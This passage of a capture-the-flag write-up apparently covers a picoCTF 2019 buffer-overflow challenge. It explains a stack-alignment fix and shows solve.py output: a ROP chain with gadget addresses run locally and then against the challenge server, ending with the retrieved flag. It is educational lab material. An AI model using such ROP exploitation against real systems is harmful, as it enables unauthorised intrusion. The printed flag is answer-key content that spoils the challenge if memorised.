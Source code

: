 ```bash
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 1960352
Welcome to 64-bit. Can you match these numbers?

[+] Receiving all data: Done (19B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1960352)
Nope, not quite...
```
This is because there is a stack alignment issue as a result of the payload (https://research.csiro.au/tsblog/debugging-stories-stack-alignment-matters/). This can be using a second payload which gets sent first, which redirects code flow back to main. I then send my second (and proper) payload that retrieves the flag (see solve.py).
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/kali/Desktop/pctf/newoverflow2/vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting local process '/home/kali/Desktop/pctf/newoverflow2/vuln': pid 2404
Welcome to 64-bit. Can you match these numbers?

FLAG{Placeholder}

[*] Stopped process '/home/kali/Desktop/pctf/newoverflow2/vuln' (pid 2404)
```
Great, now it works.

### 5. Run it on the server to win
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py REMOTE
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 1966372
Welcome to 64-bit. Can you match these numbers?

picoCTF{r0p_1t_d0nT_st0p_1t_3b39d86e}
```